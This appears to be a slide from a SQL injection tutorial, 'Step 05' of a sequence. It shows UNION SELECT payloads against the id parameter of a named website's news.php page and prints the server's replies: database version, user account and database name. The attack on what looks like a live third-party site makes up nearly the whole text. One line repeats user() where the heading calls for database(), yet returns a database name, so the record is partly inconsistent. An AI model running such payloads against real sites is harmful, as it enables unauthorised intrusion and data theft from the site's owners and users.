

# Step 05: Retrieve basic information's like version, user, database using (@@version ,  version(), user(), database())
http://iagcc.com/news.php?id=-58 UNION SELECT 1,2,3,4,5,version() -- -
5.6.39-cll-lve
http://iagcc.com/news.php?id=-58 UNION SELECT 1,2,3,4,5,user() -- -
icc_champ@localhost
http://iagcc.com/news.php?id=-58 UNION SELECT 1,2,3,4,5,user() -- -
iagcc_central